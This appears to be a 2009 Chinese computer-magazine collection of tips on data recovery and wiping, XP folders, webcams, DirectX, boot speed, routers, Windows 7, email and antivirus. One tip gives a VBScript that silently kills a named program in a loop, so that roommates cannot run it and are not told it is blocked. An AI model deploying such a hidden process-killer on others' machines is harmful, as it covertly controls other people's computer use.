“过去花钱为图饱，现在消费求个好”，在这一思想的指导下，前段时间，我购入了一部二手数码相机，当时卖家还随手送了张已经无法读取的SD卡。要知道中国人的好奇心连火星人都清楚，我也不可避免地俗气了一把——其实，这张SD卡已经变成了RAW格式，里面的内容已经全部消失了。对方也非常放心地给我了。但你是否还记得第13期《速成数据恢复工程师（1）》中介绍的吗？用EasyRecovery恢复RAW闪盘……

被恢复的风景照片着实不错，能够感觉得到那位卖家的拍摄功底，所谓“天生一个仙人洞，无限风光在险峰”也不过如此……看到这里你也明白了，变成RAW格式SD卡上的文件并未删除，自然可以恢复，但更可怕的是之前已经删除过的一些文件，毕竟最最重要文件在删除时还会注意“彻底删除”，但早些时候删除过的文件，谁还能记得呢？要知道这些文件也是会害死人的。连《越狱》中的迈克在“第二季”中都吃了这个大亏，你难道想变这样吗？

为了彻底删除那些已经被删除的文件：我们就要用到软件了，从http://work.newhua.com/cfan/200920/AceU.rar下载Ace Optimizer Utilities，运行后，点击“保护”项，然后点击“擦除已删除文件数据”，在弹出窗口中选择要擦除的分区位置，点击两次“下一步”，最后点击“开始”即可。以后再进行二手交易的时候，可就一定要小心了，千万记得把已经删除的文件再删除一次！

# 停用闪盘本来就很简单

看了2009年第18期的《闪盘停用、启用、一键搞定》，觉得文中为了停个闪盘就要下软件写代码实在是冗余了。开篇说的“安全删除硬件”的方法其实也可以用很简单的步骤代替：直接左键单击系统托盘中的USB图标，单击弹出的按钮的相应选项即可。至于重新启用，相信现在的电脑应该都有前置USB接口了，重新拔插一下也不是很难。

另外第19页的页脚提到无法停止通用卷是由于程序的反应时间问题，这点不一定，往往等待的时间会远远超过“程序反应时间”的范畴，或者干脆一直都无法停止，排除病毒和正在使用文件的可能后，可以这样做：打开“任务管理器”，切换到“进程”标签，如果闪盘上有媒体文件，就结束掉暴风影音、Windows Media Player的进程；如果有图片文件，则结束各种图片预览软件，依次类推。如果这些都没有用，可以结束掉资源管理器explorer.exe，结束后在“文件→新建任务”中输入explorer后，再尝试停止，一般就能顺利地拔出来了。小编点评：实在无语了……感谢雾雪霏云提供的超级简单方法^_^，至于解决页眉的问题，我通常是直接关机或重启来解决的……(广西/雾雪霏云)

解读操作系统大本营

小薇是单位的美术编辑，她特别喜欢收拾，办公桌干净整洁，电脑桌面也干净漂亮。当然，电脑里的素材、作品、资料、小游戏也分门别类地存放在相应的文件夹里。

一天，她发现C盘空间剩得很少了，想整理一下。将C盘里面各个文件夹点进去，傻眼了，里面文件夹套文件夹，不知道套了多少层。有的文件夹里有上千个文件，也不知道有用没用。再看C盘属性，竟然有4000个文件夹，4万个文件，比其他3个分区里都多得多。

“这怎么整理啊？我一个菜鸟！”

其实系统文件虽然复杂，但菜鸟只需抓住几个重要的文件夹，不但能够整理，也能为用好电脑带来很大帮助呢。

系统的三大文件夹

系统的文件夹很像一个国家的行政部门，有各个部、局、委员会、独立办公室等，系统像管理国家一样，通过这些“部、局”管理着各种硬件、软件和数据资料，虽然它没有那么复杂。

在XP系统安装完成后，默认会在系统盘下生成三个文件夹：Windows、Documents and Settings和Program Files。

Windows文件夹是系统的核心中枢，系统代码、硬件驱动都放置在此。

小提示：

该文件夹受到特别的保护，打开后点击“显示此文件夹的内容”才可看到。

Documents and Settings文件夹里面，系统为不同用户建立了不同的配置文件夹，保存了每个用户的使用信息和个人文件。默认情况下会有Administrator、All Users、Default User等不同用户名的文件夹，它们结构大体相同，这是个人资料的备份重点。Program Files文件夹里面是各种应用程序，系统自带程序如IE、新安装程序都会默认安装在这里。如果系统盘空间紧张，也可将新安装的程序安装到其他分区。

系统启动用的程序在哪里？

XP启动时，大部分要用的启动文件在Windows\System，斜杠“\”表示此目录中的下一级子目录。它存放各种系统文件和驱动程序、附件程序等，里面的各种HAL.DLL文件是系统内核文件，支持系统的各项服务。应用程序将它们的支持文件（DLL文件）也拷贝到这里。病毒程序也喜欢将自己的病毒文件放置在里面。

System32里面还有很多重要的文件夹，常见的如Config（放置我们电脑配置和密码）、Drivers（硬件驱动文件放这里）、Spool（打印配置，见本期回音壁）、IME（系统输入法）、CatRoot（电脑硬软件信息）、ReinstallBackups（驱动备份）、DllCache（备份的系统文件）、GroupPolicy（组策略文件）、附件程序如小游戏、计算器等也在此文件夹。

驱动程序在哪里？

系统本机使用的驱动程序在Windows\System\Drivers里面，另外Windows\System\ReinstallBackups是备份。在Windows\Driver Cache文件夹里，还存放备用的驱动程序，当新安装硬件时，就到此找相关驱动，如果删除，插入U盘系统都会提示插入安装光盘。

我们程序安装到那里？

我们新安装的程序，默认都安装在Program Files文件夹里面，但程序会将一些可以共用的支持文件安装在Windows\System和Program Files\Common Files里面，另外在Documents and Settings\用户名\Application Data下会有相关数据（用户名就是你设置的账户名字）。所以删除程序，不能直接删除Program Files文件夹里的相关文件夹，需通过“控制面板→添加删除程序”来删除。有些程序会在Program Files里保留着数据资料，然后可直接删除。

各种设置项放置在哪里？

系统的设置项目主要放置在Documents and Settings文件夹里面，我们常见的有Cursors（鼠标指针）、Media（开关机声音）、Mui（其他语言）、Web（桌面壁纸等）、Resources（桌面主题等）、Ime（输入法）、Fonts（字体，安装字体只需将字体文件复制到此）。另外一些用户设置则放置在Documents and Settings文件夹里面，常见的有“开始”（开始菜单项）、Recent（最近打开文档）、Sendto（右键菜单的发送项目）。

小提示：

以上这些文件夹，我们可以自己进行增删或修改。

我们个人资料放到哪里了？

个人资料都放置在Documents and Settings文件夹的账户名文件夹里面，重要的有桌面、Favorites（IE收藏夹）、My Documents（我的文档）、Cookies（网站信息，便于访问时自动进入）。这些都是重装系统时的备份重点。

系统临时文件放到那里了？

系统运行、上网都会产生很多临时文件，它们放置在Windows\Temp、Documents and Settings文件夹的Templates和Local Settings里面的Temp与Temporary Internet Files。建议要经常清理。

（剑、胡鹏）

超清晰、不怕黑：高档摄像头的秘密

想当初，在大学时的“高压统治”之下，被迫住在宿舍，每天的生活都是痛苦的，那是非常想念家中的老爸老妈的，虽然居住的自由没有了，但私密通讯的自由还是有的……

于是，作为一个穷学生我当初买了第一台摄像头，不过一和别的MM视频，就被强烈要求关掉，问其原因，原是画面模糊，干扰很多，看了伤眼睛，还声称让我去洗张照片当画面，然后直接开语音就好……活脱脱的侮辱呀！

估计你也过类似经验，明明已经装了摄像头，但硬是要说没装，原因就是怕“见光死”。所以好的摄像头才能在靓妹帅男上门搭讪时无往不利，所向披靡。

摄像头是如何工作的

就像传统的Discovery一样，我们在接触到每样东西前，都要告诉你它是如何工作的。这里我们也引用一张老图来为大家解释这个问题：

看到上面的流程，你可以清楚地认识到决定摄像头好坏有三个因素，分别是镜头、感光芯片和主控芯片。

是什么在影响MM们的视听

摄像头的成像原理其实和数码相机基本相同，连很多专用名词和发展历史都很相似。

早年间，很多小厂商都用塑胶镜头代替玻璃镜头，这样不仅很容易摸花，而且成像效果很差，这种模糊的效果倒是适合现在很多90后的审美方式—极具朦胧感。


再下面的就是摄像头的主要感光元件，和数码相机相同，有CCD和CMOS两种，早期30万像素的摄像头，由于成本和耗电的原因，CMOS是大受欢迎的。只有罗技品牌的高级摄像头上才能见到CCD的样子。当然这也主要是由于当时的网络环境30万像素足够了，而随着数码相机的千万级像素大提升，摄像头的像素也出现了井喷式增长，现在已经有达到200万像素的摄像头出现（还有500万甚至更多像素的）。200万是什么概念呢？只要超过200万像素，理论上讲就可以录制现在流行的1920×1080高清视频。

现在问题来了，为什么200万摄像头不能整出1080P的视频聊天效果呢？主控芯片在这里也起到了决定作用。摄像头从有驱动到无驱动，这一切的变化起着决定作用的就是主控芯片，所有图像采集之后的处理都是在这里。像很多摄像头把画面放大到1024×768后，画面立刻出现跳帧的情况，这就是虽然像素提升了可主控芯片仍然没有达到这个级别的数据处理能力造成的（受网络所限也没必要）。再来就是为什么现在的摄像头都能在光线不足的条件下正常工作了呢？这是由于主控芯片在处理图像时，如果发现整体画面较黑，那么就会自动加“白”，所以很多摄像头在低亮环境下感觉就像蒙上了一层纱（当然好的主控芯片只会在图片上需要的位置加亮）。

百问不厌：关于驱动

很多人都会问摄像头的驱动是什么，其实目前的新摄像头基本已经不需要驱动，前面我们也说了是否需要驱动是由主控芯片来决定的。只是每款摄像头都有其特有的软件，可以实现一些特效，这里再教你一个简单的方法来快速识别驱动。

右击“我的电脑”，选择“管理→设备管理器→图像处理设备”，然后在摄像头设备上双击，在“详细信息”标签下选择“设备范例Id”，然后显示出的VID和PID就代表了厂商和芯片。

| VID(厂家代号) | PID(芯片代号) | 厂家与芯片型号 |
|---------------|----------------|------------------|
| VID_0C45      | PID_62C0       | 台湾松翰 268/268P(免驱) |
| VID_0AC8      | PID_303B       | 中星微301H，即303(需要驱动) |
| VID_0AC8      | PID_3340       | 中星微334(免驱) |
| VID_1781      | PID_0306       | 台湾嘉映 308HUSB(免驱) |

JS习惯玩的小把戏

静态

除了少数90后需要重点注意“静态”这个参数外，多数用摄像头主要是进行聊天的TX就可以忽略此参数了。

插值

现在你最常见到这个词应该是在电视购物广告中，手机、DV都宣称自己是插值X百万，其实不过是让你上当的参数而已。

换个说法再来一次

| 专业叫法 | 最高分辨率 | 实际像素 |
|------------|---------------|------------|
| SXGA       | 1280×1024     | 130万像素  |
| XGA        | 1024×768      | 80万像素   |
| SVGA       | 800×600       | 50万像素   |
| VGA        | 640×480       | 30万像素   |
|            | 648×488       | 35万像素   |
| CIF        | 352×288       | 10万像素   |
| SIF/QVGA   | 320×240       |            |
| QCIF       | 176×144       |            |
| QSIF/QQVGA | 160×120       |            |

（李明）

缺少DLL文件时，我将不会再想起你：DirectX

玩游戏的时候，最让人不爽的事情就是运行之后的红叉画面，这种冷水浇头的事情应该是大多数人经历过的。

你以为是缺少个DLL，当你想尽办法从其他地方搞到了这个文件，放到C:\Windows\System32里后，还会跟着出现另外一个缺少DLL的提示。

这就是少了DirectX（简称DX）的下场！但以后不会再有了。

DirectX ≠ Direct3D

有点基础的人肯定了解DX的作用——玩游戏必须装，有了这东西才能显示3D画面。但这里必须要告诉多数人DX包括了DirectDraw、DirectPlay、DirectSound、DirectInput以及Direct3D等一堆的程序。

玩游戏已经不需要DX？

在经过了DX的几次大改版之后，微软的操作系统中已经把DX作为标配，在Vista时代，集成的是DX 10，未来的Windows 7更会自带DX 11。当游戏的画面越来越接近电影的时候，DX的方向也开始向其他方向发展了，作为即将到来的DX 11，其中最让人心动的玩意就是DirectX Compute（ATI和NVIDIA的叫法，微软自称为Compute Shade），CUDA大家都知道吧（如有不了解的，请看本期的《新软物语》），显卡这种恐怖的计算能力如果只用来游戏和转片实在浪费。未来DirectX Compute可以利用这部分的计算能力完成很多天方夜谭的任务，比如你的孩子以后的作业可能是根据老师给出的卫星云图，然后计算下周台风的走向，你没事的时候还能把NBA球队的数据输入到电脑中，让电脑帮你预测下一火箭队和篮网队各自的胜率。OH MY GOD！我不是活在未来吧……

另一个让人感觉是活在未来的就是——传说中的人工智能！如果你进行过《鬼泣4》的测试程序，应该还记得第二个测试场景中男主角在森林中打敌人时每次的范围都是不一样的，甚至是跑到画面外……在游戏中，敌人的动作会因为人工智能变得更难预料，所谓的攻略通通成为废纸！甚至有可能会分析玩家之前的过关模式找出你的破绽，终结者呀……

有DX 10了为什么还要安装DX 9？

自从微软将DX 10集成到Vista中，为什么在玩游戏之前还要安装DX 9呢？这是由于虽然DX 10兼容DX 9，但DX 10里并不完整包括了DX 9的所有运行库（也就是DLL文件），缺少了文件肯定游戏就玩不了了，而很多游戏大作多是经过几年才开发出来的，用的还是DX 9的开发环境，出于稳定性及兼容性自然需要再安装DX 9了。

刨根问个底 开机为什么这么慢

单位秘书蔓蔓最近开会都提前30分钟到会场。

“咋这么早去？不过上二层楼的事情。”

“我的电脑启动都要20分钟，不早点去，领导讲话了，做记录的电脑还没有开机呢。”

就这个问题啊！其实小心点直接将笔记本拿到会议室也行的。如果不放心，休眠一下再拿过去也可以。不过最好的办法还是查查开机为什么这么慢。

电脑开机过程有哪些

电脑的开机过程比我们想象得复杂多，比一个女人早上起床做的事情多了。像蔓蔓那样搞得将桌面搞得花里胡哨的更会加倍延长开机时间。

操作系统的启动过程分为预启动、启动、载入内核、初始化内核以及登录五个阶段。

小知识：

硬件抽象层是内存中运行的一个程序，它属于翻译联络官，在系统内核和硬件之间起桥梁的作用，因为操作系统和应用程序无法直接与物理硬件打交道。

开机速度变慢的原因有哪些

菜鸟的电脑用过一段时间后，常常就会遇见开机慢的问题，大部分是菜鸟使用中的问题，什么都安装，无用程序、流氓软件和垃圾不及时清理，积累越多，使最后启动阶段，将系统的资源（如内存、CPU）耗尽，而系统在资源耗尽的情况下，速度会大大慢下来，才会出现20分钟才能开机的情况。

提高开机速度方法推荐

去掉多余的启动项

在开始菜单的“运行”中键入“MSCONFIG”，选择“启动”选项卡，仔细查看每个项目是否需要自动加载，最好只保留输入法（在启动项目中为ctfmon）和杀毒监测程序，其余全部禁止。

休眠关机法

休眠就是把内存中的数据保存到硬盘上，然后切断电源，下次开机时，直接把硬盘上的数据装入内存，省却了一系列的开机检查装载过程。休眠的方法是选择“控制面板→电源→启用休眠”，然后关机出现提示时，按住Shift键不动，待会即进入休眠。这种方法，比较适合蔓蔓这样需要关机移动电脑的情况。不过多次休眠会使内存中垃圾积累，影响电脑运行速度。

系统优化法

使用360安全卫士，清除流氓软件，卸载不用的软件，减少开机启动项等，可长期保持开机速度。使用超级兔子、优化大师等软件也有类似效果。

软件开机法

如Windows优化大师软件的“开机速度优化”，可明显提高开机速度。

小提示：

另外要注意，杀毒软件别混装，固定IP号，点击“开始→程序→附件→系统工具→维护向导”经常维护系统等。

(张树忠)

细说常说的“节约资源”

话说小翔从高中开始用电脑也快10年了，今天又兴冲冲地到一位美女家去帮着修那老过时的慢电脑，别看美女不动手，话倒不少，“翔哥，别人说软件占用资源大是什么意思？”“别人说的资源是什么东西？”“为什么一重启电脑，资源就少了呢？”电脑修好了，美女相伴一顿美餐，不过提的问题倒是把小翔难住了，晚上正坐在电脑旁边想这些问题，迷糊中怎么傻博士来了，哈哈，正是时候。

美丽的代价

傻博士好像了解小翔的想法，二话不说，带他飞到了“计算机世界”大楼前，径直来到一间开着的房间，里面好热闹！按钮、光标、位图等许多常见的人都在忙碌着；而其他房间都是紧锁的。傻博士说，“平常常说的资源占用，其实就是指的系统资源。当应用程序运行时，内存就像是这栋大楼，在这栋楼里要专门留出一个房间，让正在运行的各种不同的程序在这里自由进出并活动，比如按钮、光标、菜单位置等等。这个房间里的系统资源过多，房间就越挤，当然电脑就会变慢啦”。听到这里，小翔茅塞顿开，难怪不得美女的电脑那么慢，桌面背景是个不断飘落的雪花，鼠标也是个不停眨眼的小狗，美丽的后面，付出了系统资源占用大量空间的代价！

这些占用大量空间的系统资源，主要来自于桌面动态软件、各类多媒体播放软件、监视系统的工具软件、预览字体的应用程序(如微软Office)等。

误传：硬件配置高，反应肯定快

买一台硬件配置高的计算机，这样系统资源越大，计算机反应就肯定越快吗？答案是否定的。系统资源和内存不是一个概念，无论怎样改变硬件，内存是256MB还是4GB，在Windows系统下，同一操作系统拥有相同的系统资源空间，换句话说，系统资源空间的大小是由操作系统决定的，“计算机世界”大楼（即硬件配置）修建得再豪华，大楼的主人就相当于是操作系统，由主人来分配给系统资源的房间有多大，而与这栋大楼是无关的。所以“硬件配置越高，系统资源越大”的说法是错误的。

小提示：

硬件高配置当然也很有优势，只是与系统资源无关。比如大内存的好处在于可以一次性容纳大量数据，提高数据调用速度。另外，也会有更多的数据会有充足的空间保留在内存中不被清除。所以，在使用过程中你仍然能明显感觉到比用小内存快。

让资源占用不再臃肿

通过上面的分析，小翔已经知道要想使电脑变快，只有真正让系统资源尽量减少调用，才能提高使用电脑的速度，减少占用系统资源的常用方法主要有以下方面。

少用桌面动态软件

动态桌面是相当耗费系统资源，包括窗体、鼠标等Windows系统的程序，要想节省空间，最好的方法就是全部使用系统自带的默认程序。

减少自动运行的程序

很多软件在安装过程中都被自动加入到系统自启动了，这样做的后果是Windows自动运行的程序太多，导致占用系统资源空间过大。

解决方法：单击“开始→运行”输入msconfig，单击“确定→启动”去掉不需要自启动的程序前的对钩。

最省资源的各类软件集合包

尽管我们再努力，但是常用应用软件还是要用的，因此尽量用省资源的软件，可以让电脑可以更多的同时并用多个软件。

- 最省资源的BT客户端：Utorrent (http://www.newhua.com/soft/61269.htm)
- 最省资源的杀毒软件：NOD32 (http://www.newhua.com/soft/10148.htm)
- 最省资源的视频播放软件：MPlayer (http://www.newhua.com/soft/29851.htm)
- 最省资源的音频软件：Foobar 2000 Lite (http://www.pdown.net/soft/18649.htm)
- 最省资源的浏览器：MiniIE(裸奔浏览器,http://www.miniie.com/)

修改注册表收回系统资源

在“运行”中输入regedit，在打开的注册表编辑器左侧，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\XPlorer]，单击右侧窗口的空白处，新建一个名为AlwaysUnloadDll的“字符串值”，将AlwaysUnloadDll的键值修改为1，退出注册表编辑器，重启电脑即可。

(四川/朱莉)## Windows 7下打造XP样式任务栏

盼星星盼月亮，Windows7终于发布了。所有体验过新系统的朋友都会发现，Windows7的任务栏变化可谓是天翻地覆。习惯了以前XP样式任务栏的同学，想知道怎么才能把它变回原来的样式么？

## 伸展标签，拒绝合并

Windows 7的任务栏标签默认只显示图标且如果打开多个窗口会合并在一起，这样会带来很多不便。其实想要恢复原样很简单，Windows 7中就提供了该项设置。右击任务栏→属性→弹出“任务栏和开始菜单属性”窗口→任务栏外观，就可以看到“任务栏按钮”后面的下拉菜单中默认选择的是“始终合并、隐藏标签”，选择“当任务栏占满时合并”（如果打开程序很多就会恢复原来的样子）或“从不合并”即可。如果在“任务栏和开始菜单属性”窗口中勾选使用小图标，任务栏会缩小回原来的样子。

## 通知区域图标，要谁出现谁出现

当你打开QQ等会在通知区域（托盘区）显示小图标的程序时，会发现Windows 7的另一个不同——默认只显示3个系统设置按钮，其余的图标都需要点击那个朝上的三角箭头才能出现，这样便导致即时通讯软件来了消息之后很难看到。其实Windows 7对通知区域图标提供了系统的管理，想让图标显示非常简单，点击朝上的三角，选择“自定义”，在弹出的“通知区域图标”窗口中便可以看到所有会在通知区域显示图标的程序，这时只要把图标后面的行为选项选为“显示图标和通知”即可。

## 让快速启动栏‘显形’

Windows7中默认不显示快速启动栏，很多人以为这项功能被删除了。其实可以很简单地让快速启动栏重新出现。

- 在任务栏单击右击，选择“工具栏→新建工具栏”。
- 在弹出窗口的“文件夹”后对话框中输入%UserProfile%\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch。
- 此时可以看到任务栏右下角多出Quick Launch一项。
- 在任务栏上单击右键，取消“锁定任务栏”的勾选。
- 在Quick Launch上右击取消勾选“显示文本”与“显示标题”，这下熟悉的任务栏便出现了。
- 先将任务栏变为大栏样式（Windows 7默认，小任务栏样式时拉出两行），将鼠标移动到快速启动栏的分割线上，当鼠标变成带左右箭头的样式后，按下Ctrl键，按住鼠标左键往上拉，快速启动栏部分就会往前移。
- 完成后，再将任务栏拉成一行，锁定任务栏即可。

小编点评：微软本来也是好意，把Windows 7的界面进行了大修改，不过对于新手来说，从Windows XP/Vista突然换到Windows 7还真有点不适应，通过上面的修改倒是容易上手不少。

## 珍惜话费 远离响一声

早晨酣睡之际，突然一声手机铃响，吃大餐的美梦被吵醒了，烦心啊、纠结啊，这流氓电话怎么才能杜绝呢？这种响一声就挂的电话，不仅是影响正常生活，受害者对此类号码回拨后或者被扣费，或者听到各类广告，想打回去理论吧，人家那边是特殊设备进行自动拨号，总躲避也不是个办法，还是想想怎么把它K.O.掉。

## 求助手机防火墙

我们没有办法从源头解决流氓电话，靠移动服务商去管理目前还是不现实，只能在自己手机上琢磨点子。还好智能机可以安装各种应用软件，比较不错的有信安易，安装以后就可以拦截有限的垃圾短信，还具备来电防火墙的功能，只占用150K内存，能用在S60上以及Windows Mobile, Linux系统，具体设置如下：

安装信安易最新版本2.1（官网www.msafe.com.cn），安装后默认开机启动在后台运行，从配置种打开响一声来电处理，软件会判断来电，如果满足来电号码不是名片夹中的联系人，并且来电时间小于3秒，那么就会在通讯记录中生成该号码标记，注明“响一声”，很温馨的设置，平时看到未接来电，无法判断是正常拨打还是响一声，这样一来就能分辨出了，不至于再回拨掉进陷阱。如果还不过瘾，那么试试老版本1.42可以延迟电话铃声，也就是说在电话拨进来时，会先静音几秒，不会惊醒美梦。还可以设置来电黑名单，对方拨打时会听到“您拨打的电话已关机”。过滤垃圾短信也是一个很实用的功能，它有一个号码数据库，可以更新，这样有垃圾短信时就能达到自动拦截的目的。来电通也有类似功能，可以尝试，注意避免同时安装造成冲突。现在市场上有的MTK手机，已经具备了防火墙功能，只要打开过滤响一声就能实现防御流氓电话，不用安装软件，使用更为方便。（tache）

## 网络罢工谁之过？

中国有2.98亿网民，家里有电脑，每周上网时间超过3小时的，估计没遇到过网络断线（民间“砖家”称之为断流，菜鸟会大叫“断了，断网了！”）的人应该可以按恐龙来计算了。放“狗”一搜，大片的答案都是一路由器太热啦！中毒啦！但根据小编多年来当为民服务，免费维修电脑、积功德，加上磨嘴皮子的经验，很多人断网就是路由器挂掉了！其中以P2P下载最容易“断”，那么真相是什么呢……

## 路由器其实不怕热

除非你的路由器工作在阳光下、暖气上，同时被阿猫阿狗压在身下当成“暖宝”外，否则热量大这个借口只能是出自JS之口。路由器其实是很“皮实”的，轻易不可能热倒。那么让路由器挂掉的真实原因就是“连接数”（也称“并发连接数”，若你的路由设置界面为英文，则通常显示成sessions，即“会话”）。

## 没错，就是那个无处不在的连接数

“砖家”会告诉你——连接数就是在同一时间内，可以“建立”和“维持”的连接数量。这个概念是不是很眼熟？没错，每次新装完系统，在迅雷进行第一次下载时，都需要修改的“系统连接数”就是这东东！如果你拒绝了修改，那下载速度完全就是“一夜回到解放前”的水平，可见这个参数的重要性。至于路由器上的“连接数”，可不像Windows系统一样可以自由修改，它在出厂时已经制定好了，一般家用路由器的通常是五百到一千，如果连接数超过了限制，那路由器就会“玩罢工”，这个数值你可以在路由器的说明书上找到！

## 连接数不是万能的，但没有它P2P万万不能

所谓P2P就是你的电脑和其他人家里的电脑联系上，再交换数据，进行下载。而和每台电脑联系都会需要占用一个连接数，连接的电脑多了，你就别想顺利地打开网页或是下载软件了，稍微打开个图多点的帖子，就会“满眼尽是红叉叉”（打开个网页可能就需要用到几十上面的连接数，当然浏览网页不需要像P2P那样用的多，但很快就会释放）。这就像邮局没有足够的服务窗口，排队的人多了，寄包裹肯定是要等半天！



- 图上的方块就是下载的数据包，正常情况下，它会依次下载。
- BT下载使用TCP协议，是需要先发送数据包与对方先建立联系然后再开始上传数据，所以当上传速度完全占满后，建立联系用的数据包就会被卡住，真正的数据包就只能被“卡”住了。

## 水管大，水量小，这事真的有

不少用ADSL的人都会很郁闷，为什么同样的是1Mb的ADSL，别人BT下载的平均速度是130KB/s，而自己的确只有110KB/s。要讲明白这个问题那话就长了，我们这里就结合图片，长话短说——ADSL的上传速度通常只有下载速度的一小部分，比如1Mb的ADSL，上传速度只有几十KB的带宽。BT下载时，当给其他人提供数据时会占用掉这部分带宽的相当一大部分甚至是全部。这时根据网络连接的原理，下载数据时，需要用到一部分的上传流量来和对方的电脑先进行连接，刚好这时上传流量又没有了，于是只有排队，导致下载速度下降。索性影响不大，所以ADSL用户在BT下载时，限制上传速度其实是可以提速的（见图），比如小编的1Mb ADSL会把上传速度定为30KB/s。

## 连接数受限，路由器怎么办

照上面的说法，那些连接数只有几百的路由器还有什么“活路”？关于这个问题，厂商使用了秘密武器来解决，它就是QoS（Quality of Service，带宽管理机制）。QoS并没有统一的标准，是厂商各玩各的，效果也就参差不齐，有的居然直接就让你勾选QoS，至于如何实现的，估计只有厂商的开发人员自己知道……QoS目前主要有“资源保留型”和“等级优先型”两种。像什么指定FTP最大下载为100KB/s的就是“资源保留型”；“等级优先型”则是根据不同应用设置不同的优先级，比如“影音视频>网页浏览>即时通讯”等等。这就有点像固定窗口的邮局，想要最快速度分发信件，那可以根据情况按很多种方式进行分类，比如寄件人的性别、信件的重要性，甚至是让信件插队的方式来达成。所以，不管哪些QoS，都要根据实际使用环境而定，并没有好或不好之分。

## 无限连接数，这个真没有

路由器的“连接数”是多是少决定权应该是它的缓存大小，容量越大，连接数就越多。不过，有些厂商的产品虽然提供了高连接数，但也只是针对P2P应用做了优化，缓存容量并不高，这导致在进行P2P下载同时，再进行大量数据复制就极容易断线。（北京/王项）

## 玩转触摸板

WOW战场中激战正酣，突然鼠标指针飞了，让对方趁机上马跑掉，心里别提有多来气；

笔记本触摸板用的时候不多，烦心的时候倒不少，平时打字时手掌经常误碰还能忍忍，游戏中的关键时刻怎能出差错。

有的笔记本设计了触摸板的开关键，没有设计开关键的本本也可以通过驱动程序禁用它，这样一来自然是方便了，可是想使用它的时候还要再从控制面板中打开，不免有些麻烦。要是能够调节它的灵敏度就方便多了。

第1步：现在的笔记本基本上都是Synaptics出品的触摸板，下载驱动并安装，如果本本自带了驱动就可以跳过这一步了。(http://drivers.mydrivers.com/search-1602-917/h21402-0-0-1-0-1.htm)



第2步：打开控制面板中的鼠标属性选项卡，切换到“装置设定值”(如图1)，点击设定值进入到触摸板的属性界面。在左侧菜单下找到灵敏度，点开选中PalmCheck(掌压感应)。



第3步：把PalmCheck(掌压感应)面板下的灵敏度滑动到最右侧(如图2)，放置在红色范围内效果最好。

实际上这样调节掌压感应的意思就是，降低手掌对触摸板的影响，要注意这只是针对手掌，并不会对手指操作触摸板产生任何影响。经过一番设置，玩游戏就不担心手掌碰到触摸板影响鼠标指针了，继续在WOW战场中奋战吧。

(文/CT)

## 邮箱体积大 附件技巧多

GFan读者对于邮箱的使用都比较在行了，会使用Outlook(简称OL)、Outlook Express(简称OE，在Vista以后系统中没有内置)、Foxmail(简称FM)收、发邮件了。其实，邮件客户端工具收、发邮件之外的那些功能有些时候更实用，特别是在办公时，掌握了这些另类技巧会带来更多方便，大幅提高办公效率。

## Outlook 四两拨千斤

**发含附件邮件一拖即搞定**

很多刚用OL的朋友不会通过邮件发附件，其实很简单，邮件部分与平时正常写邮件、发邮件一样，邮件内容部分撰写完毕，收件人、邮件主题等均设置完毕后，直接将要发送的文件通过鼠标拖拽的方式拖放到写邮件窗口中即可(见图1)。当然，也可以直接单击写邮件窗口中工具栏内的“附加文件”按钮添加邮件附件。



**小提示:打开邮件附件也有学问**

打开一封含有附件的邮件后，为了安全起见，正确的操作方法应该是将附件保存到硬盘(例如直接放到桌面)，然后使用杀毒软件对其扫描，防止中招。

**查找附件是难者不会，会者不难**

在Outlook中，可以通过建立搜索文件夹的功能快速将所有含有附件的邮件筛选出来，在缩小范围后的邮件中找特定的附件就方便多了。建立筛选附件的搜索文件夹很简单：打开OL主窗口，展开“邮件文件夹→所有邮件项目→搜索文件夹”，最后右击“搜索文件夹”项并选择“新建搜索文件夹”，在打开的窗口中选择“带附件的邮件”即可(见图2)。

## DIY “花季护航”

在第19期《情义之外的故事，宿舍电脑也要“花季护航”》一文中所介绍的使用组策略来限制软件运行的技巧实在太“鸡肋”。

- ①弹出的对话框已经明确地告诉别人，是管理员禁用了该软件。
- ②如果自己需要使用也不太方便，还需要从组策略中解除限制。

不如我们自制一个更方便的吧。

打开记事本，输入以下内容(http://work.newhua.com/cfan/200922/22cx.txt)：

```
dim qobj,pipe,good
do
good="."
set qobj=getobject("winmgmts:"&good&"\root\cimv2")
set pipe=qobj.execquery("select * from win32_process where name='excel.exe'")
for each i in pipe
i.terminate()
next
wscript.sleep 1
loop
```

把需要禁止的软件名称输入到where name=”中，本例以excel.exe为例。把该文件另存为VBS格式，需要的时候双击该文件即可禁止Excel的运行，且没有任何提示。解除限制只需要在任务管理器中结束wscript.exe进程即可。这样既不伤朋友情义，又不影响自己使用。

(广东/熊欣)

## 用 Foxmail 看新闻、博客，省事

现在看新闻、博客，无须再单独安装RSS阅读器，平时用来收、发邮件的FM就能当RSS阅读器用了。

打开FM，在主窗口中单击左侧列表中的“RSS”，接下来再通过菜单“RSS→新建频道”将要看的网站、博客的RSS源添加进来。

添加了频道后，日后想看新闻或是关注的博客就非常方便了，直接打开Foxmail，展开“RSS”组就可以直接看新闻或是博客了(见图3)。

## Windows Mail 中借助 IMAP 遥控 Gmail

Gmail推出的IMAP方式管理邮件，在邮件客户端与邮件服务器之间建立双向通道，适合多台电脑环境下使用。在家中的电脑中查看的新邮件，回到办公室照样还可以查看，而使用POP方式时，回到办公室这封新邮件可能就被删除或被标记为“未读邮件”。

开启Gmail的IMAP功能：进入Gmail，点击“设置”，选择“POP/IMAP”，选中“启用IMAP”项(见图4)。

打开Windows Mail，直接点击左侧页面中的“添加电子邮件账户”，然后将Gmail账户信息添加进来即可，Windows Mail默认启用IMAP模式。

在Gmail中建立的个人文件夹也将如数显示在Windows Mail界面中(而这是POP模式做不到的)，可以预览邮件，需要阅读时再进行下载。





小技巧：

除了使用OL自带的搜索文件夹功能来筛选含附件的邮件外，通过http://mydown.yesky.com/soft/network/emailtools/495/460995.shtml可下载的“OutlookAttachView”可以更方便地将当前系统中所有含有的附件筛选出来(注意，筛选的不是邮件而是直接附件)。还可以直接将附件文件拷贝到其他位置，操作更方便。





## 彻底免费 不杀白不杀

现在，杀毒软件（以下简称杀软）已成必装软件！如果现在告诉你说一款大型杀软免费了，你也许会和其他网友一样起疑心，可天底下的事儿就是在尔虞我诈之间艰难前行着，免费的到底好不好，看看下文就知道。我们想说的是，满足需求，够用就好！

### 找到免费杀软

登录“360杀毒”官方网站http://sd.360.cn，点击“免费下载”，这是一种在线安装模式，这样连下载的操作都省去了。官方网站上还提供了离线安装包的下载方式，如果你希望将“360杀毒”安装文件保存在电脑中，以便将来再次安装的时候可以直接使用，而不用再上网下载，可以选择这种方式（见图1）。



